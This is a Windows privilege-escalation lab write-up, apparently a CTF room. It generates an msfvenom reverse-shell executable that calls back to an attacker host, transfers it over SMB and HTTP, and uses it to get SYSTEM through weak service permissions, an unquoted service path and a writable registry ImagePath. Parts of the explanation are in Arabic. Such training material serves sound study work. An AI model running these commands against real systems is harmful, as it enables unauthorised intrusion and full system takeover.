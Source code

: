 # Windows PrivEsc

<img width="1907" height="364" alt="image" src="https://github.com/user-attachments/assets/82f1df6e-1dca-4555-bfea-af1faf6f0869" />


>[!note]
> ### Connect to Target using `RDP srvice enabled`:
>
> ```ruby
> xfreerdp3 /u:user /p:password321 /cert:ignore /v:10.10.103.25
> ```
> Or
> ```ruby
> rdesktop 10.10.103.25 -u user -p password321
> ```
> #### `if winrm service is enabled` :
> ```ruby
> evil-winrm -i 10.10.103.25 -u user -p 'password321'
> ```
> #### `if SMB service is enabled` :
> ```ruby
> smbclient //MACHINE_IP/C$ -U user
> ```

- <details>
     <summary>Nmap Scan</summary>

  ```ruby
  nmap -sC -sV  10.10.103.25 
  ```
  
  **`output`**
  
  ```ruby
  PORT     STATE SERVICE       VERSION
  135/tcp  open  msrpc         Microsoft Windows RPC
  139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
  445/tcp  open  microsoft-ds  Windows Server 2019 Standard Evaluation 17763 microsoft-ds
  3389/tcp open  ms-wbt-server Microsoft Terminal Services
  |_ssl-date: 2025-09-08T19:27:18+00:00; -2s from scanner time.
  | ssl-cert: Subject: commonName=WIN-QBA94KB3IOF
  | Not valid before: 2025-09-07T18:56:41
  |_Not valid after:  2026-03-09T18:56:41
  | rdp-ntlm-info: 
  |   Target_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Domain_Name: WIN-QBA94KB3IOF
  |   NetBIOS_Computer_Name: WIN-QBA94KB3IOF
  |   DNS_Domain_Name: WIN-QBA94KB3IOF
  |   DNS_Computer_Name: WIN-QBA94KB3IOF
  |   Product_Version: 10.0.17763
  |_  System_Time: 2025-09-08T19:27:08+00:00
  5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
  |_http-title: Not Found
  |_http-server-header: Microsoft-HTTPAPI/2.0
  Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
  
  Host script results:
  | smb-security-mode: 
  |   account_used: guest
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_clock-skew: mean: 1h23m59s, deviation: 3h07m51s, median: -1s
  | smb-os-discovery: 
  |   OS: Windows Server 2019 Standard Evaluation 17763 (Windows Server 2019 Standard Evaluation 6.3)
  |   Computer name: WIN-QBA94KB3IOF
  |   NetBIOS computer name: WIN-QBA94KB3IOF\x00
  |   Workgroup: WORKGROUP\x00
  |_  System time: 2025-09-08T12:27:11-07:00
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled but not required
  | smb2-time: 
  |   date: 2025-09-08T19:27:12
  |_  start_date: N/A
  
  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 256.26 seconds
  ```
  
  - **`3389/tcp open  ms-wbt-server`** : That is mean `RDP service` is work
  - **`5985/tcp open  http`** : That is mean `WinRM HTTP service` is work
  - **`445/tcp  open  microsoft-ds`** : That is mean `SMB service` is work


     
  </details>



<details>
  <summary>Generate a Reverse Shell Executable</summary>

## 1. first Create **`Reverse Shell file`** on my kali device

```ruby
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f exe -o reverse.exe
```

- **`msfvenom`** : Tool to create payload
- **`-p windows/x64/shell_reverse_tcp`** : Reverse shell type
- **`LHOST`** : Device IP that will recive the shell in this case will be my kali machine
- **`LPORT`** : port that shell will connect to it on kali
- **`-f exe`** : output file type `exe`
- **`-o reverse.exe`** : put the output in file call ``reverse.exe``

## 2. send reverse sell to windows

**`on kali Device open smb servrice on directory that have reverseshell file`**

```ruby
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

- **`kali`** : name share
- **`.`** : files that will avilable in the share here in current folder

**`on Windows Device`**

```ruby
copy \\10.8.47.102\kali\reverse.exe C:\PrivEsc\reverse.exe
```

- copy file from kali machine to windows


---

<img width="638" height="147" alt="image" src="https://github.com/user-attachments/assets/0fb8c918-0b43-445d-81ce-ba68f457888f" />


<img width="1441" height="449" alt="image" src="https://github.com/user-attachments/assets/dce924e7-a87f-4dff-af42-349654bc9647" />

- **`that is mean file is copied to windows`**

---

### **`now run the reverse file on windows with lesten on port 4444 on kali`**

<img width="715" height="307" alt="image" src="https://github.com/user-attachments/assets/6c150d81-145e-4b5f-b16d-8985d3ffaf89" />

- **`here we go we receved the shell `**


  
</details>









<details>
  <summary>Service Exploits</summary>




- <details>
      <summary>🟦Understanding</summary>

  
  ## ``1. know all services that work on system and it's privileges``
  
  # **`CMD`**
  
  ```ruby
  sc query type= service state= all
  ```
  
  # **`PowerShell`**
  
  ```ruby
  Get-Service | Select-Object Name, Status, StartType
  ```
  
  
  ---
  ---
  
  ## ``2. know the privilges of the user on each service``
  
  ```ruby
  accesschk.exe -uwcqv user *
  ```
  
  > you must download **`accesschk.exe`**
  > 

  https://learn.microsoft.com/en-us/sysinternals/downloads/accesschk

  <details>
    <summary>send it to vectem</summary>
  
  ## **`using SMB`**
  
  **`on kali`**
  
  ```ruby
  sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
  
  ```
  
  **`on windows`**
  
  ```ruby
  copy \\10.10.10.10\kali\accesschk.exe C:\PrivEsc\accesschk.exe
  ```
  
  ----
  ----
  
  ## **`using Powershell`**
  
  **`on windows`** if device connected to internet
  
  ```ruby
  Invoke-WebRequest -Uri "http://10.10.10.10/accesschk.exe" -OutFile "C:\PrivEsc\accesschk.exe"
  ```
  
  **`on kali`**
  
  ```ruby
  python3 -m http.server 80
  ```
  
  
    
  </details>


  > by default it downloaded on this machine 





  ---
  ---
  
  ## 3. found the services that work as **`SYSTEM`**
  
  # **`CMD`**
  
  ```ruby
  sc qc <ServiceName>
  ```
  
  > - look at **`SERVICE_START_NAME`** value
  
  # **`PowerShell`**
  
  ```ruby
  Get-WmiObject Win32_Service | Select-Object Name, StartName
  ```


  </details>








- <details>
      <summary>Insecure Service Permissions</summary>

  
  > ### Goal is prevEsc form normal user to `SYSTEM privileges` by **`daclsvc`** service 
  
  ## 1. first check the pricvllage of current user on this service ``(daclsvc)``
  
  ```ruby
  C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
  ```
  
  - **`accesschk.exe`** : This is Tool form _Sysinternals_ to check on privilege of current user on (files, folders, etc...)
  - **`/accepteula`** : this option to pybaass the first priv window
  - **`-uwcqv`** : options
    - **`u`** : user account
    - **`w`** : writeing privileges
    - **`c`** : change `config` privileges
    - **`q`** : `quiet` to make it simple
    - **`v`** : `verbose` for more details
  - **`user`** : username of current user
  - **`daclsvc`** : service name
      
  
  ---
  
  <img width="584" height="296" alt="image" src="https://github.com/user-attachments/assets/c8ab3ba2-ad0a-4c86-99e3-ace3b7ce30fb" />
  
  ### - **`Found that user have`** :
  
  ```ruby
  SERVICE_CHANGE_CONFIG
  ```
  ### - ``Thats mean this user can change settings of this service``
  
  
  ---
  
  ## 2. now we want to know privileges of the current service
  
  ```ruby
  sc qc daclsvc
  ```
  
  - **`sc qc`** : query config for service
  - **`daclsvc`** : name of the service
  
  ---
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  ### - we found :
  
  - **`SERVICE_START_NAME`** : the account that this service work with it
  - **`LocalSystem`** : that is mean if we run this service any program will run as **`SYSTEM`**
  
  
  
  ---
  
  > ### NOW WE know that :
  > - this service can work as **`SYSTEM`**
  > - current user can edit this service settings **`SERVICE_CHANGE_CONFIG`**
  
  
  ## 3. change the path of this service to path of our reverse shell that will send shell to kali with **`SYSTEM`** privileges : 
  
  ```ruby
  sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
  ```
  
  - **`sc config`** : change service settings
  - **`binpath=`** : the new path to that service will run it
  - **`\"C:\PrivEsc\reverse.exe\`** : reverse shell that we sent it before
  
  
  ### **`lesten on port 4444 on kali`**
  
  ### **`run the service`**
  
  <img width="677" height="212" alt="image" src="https://github.com/user-attachments/assets/ad7a133f-2592-45ba-9083-47dfb2ed716b" />
  
  ---
  
  ## receved the shell :
  
  <img width="719" height="210" alt="image" src="https://github.com/user-attachments/assets/7d36208c-ce01-4047-9eaf-04c855830e50" />
  
  ---
  
  ## see that we now **`SYSTEM`** user
  
  ```ruby
  whoami
  ```
  
  <img width="327" height="79" alt="image" src="https://github.com/user-attachments/assets/64e23bed-3b42-4219-8714-a256a4f0db96" />
  
  <details>
    <summary>more commands</summary>
  
  
  ## to see our privilleges
  
  ```ruby
  whoami /priv
  ```
  <img width="1282" height="624" alt="image" src="https://github.com/user-attachments/assets/a65ceb03-b5b5-4c09-a2fc-a2214f0ef8fc" />
  
  
  ## see the groups that i'm in : 
  
  ```ruby
  whoami /groups
  ```
  
  <img width="1158" height="249" alt="image" src="https://github.com/user-attachments/assets/c2689996-2809-4a2d-bec0-9508e3c0a142" />
  
  ```ruby
  systeminfo
  ```
  
  <img width="796" height="599" alt="image" src="https://github.com/user-attachments/assets/1ec7bb31-9838-41fd-8872-ffe6e0b1d56c" />
  
  ## to show all env variables: 
  
  ```ruby
  set
  ```
  
  <img width="1403" height="554" alt="image" src="https://github.com/user-attachments/assets/5a9fa26d-e836-4fe0-9ada-2372d7e46a96" />
  
  
    
  </details>
  
  
  > ## now the answer of the question :
  > What is the original BINARY_PATH_NAME of the daclsvc service?
  
  ```ruby
  sc qc daclsvc
  ```
  
  <img width="860" height="319" alt="image" src="https://github.com/user-attachments/assets/abec5e68-4f0c-439c-933e-79bc3f289979" />
  
  **`answer`**
  
  ```ruby
  C:\Program Files\DACL Service\daclservice.exe
  ```
  


  </details>













- <details>
      <summary>Unquoted Service Path</summary>

     
     
     > ## in windows each service has :
     > - **`BINARY_PATH_NAME`** : THE path with refer to the place that have **`exe`** that this service will run it
     >   - if it's value writen without ``"..."`` that mean we can exploit it
     
     
     ---
     
     ## 1. first get info about the service (unquotedsvc)
     
     ```ruby
     sc qc unquotedsvc
     ```
     
     ## - found two important things
     
     > - **`SERVICE_START_NAME : LocalSystem`** : that is mean this service work as **`SYSTEM`**
     > - **`BINARY_PATH_NAME        : C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`**
     >>  - IT without ``"..."``
     
     
     <img width="883" height="262" alt="image" src="https://github.com/user-attachments/assets/888cae7d-e707-4a32-bf40-02b668d079b5" />
     
     ---
     
     ## 2. TRY To know the privilege of current user on this path
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
     ```
     
     ## - **`RW BUILTIN\Users`** : that is mean any normal user can do read and write in this folder
     
     
     <img width="823" height="173" alt="image" src="https://github.com/user-attachments/assets/418384ed-aeff-4838-91b8-966a9933ba4d" />
     
     
     ---
     
     ## 3. move the reverse shell file to the new path with new name 
     
     
     ```ruby
     copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
     ```
     
     <img width="778" height="82" alt="image" src="https://github.com/user-attachments/assets/28249e57-c476-4664-b89f-7b136ef20544" />
     
     
     
     ## 4. open listener on kali
     
     ```ruby
     sudo nc -nvlp 4444
     ```
     
     ## 5. run the service 
     
     ```ruby
     net start unquotedsvc
     ```
     
     <img width="963" height="412" alt="image" src="https://github.com/user-attachments/assets/5b8eaba2-2421-4e4d-9d67-96e604910b74" />
     
     ---
     
     <img width="1646" height="214" alt="image" src="https://github.com/user-attachments/assets/c25163f8-d4d4-4446-94b9-6398e62bcc7d" />
     



  </details>















- <details>
      <summary> Weak Registry Permissions</summary>

     
     
     > ## in windows each service has settings stored in `Registry` like:
     > - **`SERVICE_START_NAME`** : who run the service
     > - **`BINARY_PATH_NAME`** : the excutable file that run when this service run
     
     
     ## 1. first get info about the service (regsvc):
     
     ```ruby
     sc qc regsvc
     ```
     
     ```c
       BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
       SERVICE_START_NAME : LocalSystem
     ```
     
     
     <img width="836" height="255" alt="image" src="https://github.com/user-attachments/assets/5019fb82-41c1-45f7-8983-dcd88310af44" />
     
     
     ## 2. check the privilege of this user to wirte on **`Registry`**
     
     ```ruby
     C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     ```
     
     ```perl
     RW NT AUTHORITY\INTERACTIVE
           KEY_ALL_ACCESS
     ```
     
     ### - `that is mean any user have access to write on registry key of this service`
     
     
     <img width="797" height="192" alt="image" src="https://github.com/user-attachments/assets/88afff65-8a8a-4eaf-b3ad-ddc0cfedfbe0" />
     
     
     
     ## 3. edit Registry value and make it refer to our reverseshell file
     
     ```ruby
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     ```
     
     - **`/v ImagePath`** : It determines that we change this particular value.
     - **`/t REG_EXPAND_SZ`** : Value type (String extended).
     - **`/d C:\PrivEsc\reverse.exe`** : New data (new path).
     - **`/f`** : (to not ask you for confirmation).
      
     
     ## 4. open Listener on kali
     
     ```ruby
     nc -nvlp 4444
     ```
     
     
     ## 5. run the service
     
     ```ruby
     net start regsvc
     ```
     
     
     <img width="995" height="568" alt="image" src="https://github.com/user-attachments/assets/0ae50a32-d149-46f3-98a6-4e17d9175224" />
     


     <details>
        <summary>الفرق بين daclsvc و regsvc Exploits</summary>
     
     
     
     
     
     ## الفرق بين daclsvc و regsvc Exploits
     
     
     الـ 2 إكسبلويت شبيهين في النتيجة (تشغيل ملفنا كـ SYSTEM)، لكن الاختلاف في **إيه اللي اتحكمنا فيه وإزاي**:
     
     ### 1️⃣ أول exploit (daclsvc)
     
     الأوامر:
     
     ```cmd
     sc qc daclsvc
     sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
     net start daclsvc
     ```
     
     * الخدمة أصلاً كانت بتشاور على ملف EXE في الـ `binpath`.
     * اليوزر عنده **SERVICE\_CHANGE\_CONFIG** → يقدر يعدّل إعدادات الخدمة باستخدام `sc config`.
     * غيّرنا الـ **binpath** بتاع الخدمة وخليّناه يشاور على ملفنا (reverse.exe).
     * لما شغّلنا الخدمة → الملف بتاعنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "تغيير إعدادات الخدمة" (config).
     
     ### 2️⃣ تاني exploit (regsvc)
     
     الأوامر:
     
     ```cmd
     accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
     reg add HKLM\SYSTEM\CurrentControlSet\Services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
     net start regsvc
     ```
     
     * الخدمة (regsvc) بتشاور على المسار بتاعها من الريجستري (`ImagePath`).
     * عندنا صلاحية **كتابة على مفتاح الريجستري** ده (مش config بتاع الخدمة نفسها).
     * بدلنا قيمة الـ `ImagePath` في الريجستري وخليّناه يشاور على `reverse.exe`.
     * لما شغّلنا الخدمة → برضه ملفنا اتنفذ كـ SYSTEM.
     
     **الخلاصة**: استغلال صلاحية "كتابة في الريجستري" بدل "تغيير إعدادات الخدمة".
     
     ### الفرق الرئيسي:
     
     * **daclsvc**: عدّلنا إعدادات الخدمة باستخدام أمر `sc config` (بسبب صلاحية خدمة).
     * **regsvc**: عدّلنا **الريجستري** اللي الخدمة بتسحب منه الإعدادات (بسبب صلاحية على الريجستري).
     
     ---
     
     ## جدول مقارنة بين أنواع Service Exploits
     
     | نوع الاستغلال                 | المكان/الصلاحية المطلوب  | الطريقة                              | النتيجة                               |
     | ----------------------------- | ------------------------ | ------------------------------------ | ------------------------------------- |
     | DACL / Config Exploit         | SERVICE\_CHANGE\_CONFIG  | sc config تغيير binpath              | تشغيل ملف كـ SYSTEM                   |
     | Registry Exploit              | Write على Registry       | reg add لتغيير ImagePath             | تشغيل ملف كـ SYSTEM                   |
     | Unquoted Path Exploit         | Write على مجلد الخدمة    | وضع ملف باسم معين داخل مجلد غير مقفل | تشغيل الملف بصلاحيات SYSTEM عند start |
     | AlwaysInstallElevated Exploit | سياسات Windows Installer | تثبيت MSI خبيث                       | تشغيل كـ SYSTEM                       |
     | Weak Service Permissions      | أذونات ضعيفة على الخدمة  | sc config / binpath                  | تشغيل كـ SYSTEM                       |
     
     *ملاحظة*: كل الطرق السابقة تعتمد على أن الخدمة تعمل تحت SYSTEM أو حساب عالي الصلاحيات.
     
     
     ---


     # Windows Service Paths Explained
     
     ## 1️⃣ BINARY_PATH_NAME
     - ده الـ **path الحقيقي** للـ executable اللي السيرفيس هيشغله.
     - لما تعمل `sc config <service> binpath= "..."`، أنت فعليًا بتغير **المكان اللي النظام هيشغل منه البرنامج**.
     - أي تغيير هنا بيأثر على السيرفيس فورًا بعد إعادة التشغيل.
     
     ## 2️⃣ ImagePath
     - ده موجود في **Registry** تحت المسار:
       ```
       HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<ServiceName>
       ```
     - القيمة دي هي نفسها `BINARY_PATH_NAME`، لأنها مجرد **طريقة Windows لتخزين path السيرفيس** في الريجستري.
     - عمليًا هما بيشاوروا لنفس الملف، لكن `ImagePath` موجود في الريجستري، و`BINARY_PATH_NAME` بيشتغل بيه `sc.exe`.
     
     ## 3️⃣ العلاقة بينهم
     - لو غيرت `BINARY_PATH_NAME` عن طريق `sc config` → النظام بيحدث الـ `ImagePath` في الريجستري تلقائي.
     - لو غيرت `ImagePath` مباشرة في الريجستري → السيرفيس مش هيعرف لحد ما تعمله restart أو تستخدم `sc` لتحديثه.
     
     ## 4️⃣ ليه في Exploit غيرنا `binpath`؟
     - الهدف كان **تشغيل الـ reverse shell الخاص بينا كخدمة**.
     - الأمر المستخدم:
       ```
       sc config daclsvc binpath= "\"C:\PrivEsc\reverse.exe\""
       ```
     - ده بيخلي السيرفيس يشتغل بالـ executable بتاعنا بدل الأصلي.
     - وده أساسي في **privilege escalation** على Windows لأن السيرفيس بيشتغل بـ SYSTEM privileges.
     
     ## مثال تشبيهي
     - تخيل عندك دفتر (Registry) وورقة (BINARY_PATH_NAME) فيها نفس الرقم:
       - لو كتبت الرقم في الورقة → الدفتر بيتحدث تلقائي.
       - لو كتبت الرقم في الدفتر بس → الورقة مش هتعرف إلا لما تقول لها "حدّثي نفسك" (restart أو `sc`).
     
     
          
     
     
     
     
     </details>






  </details>














- <details>
      <summary>Insecure Service Executables</summary>
  </details>
  



  
</details>












<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>

<details>
  <summary></summary>
</details>





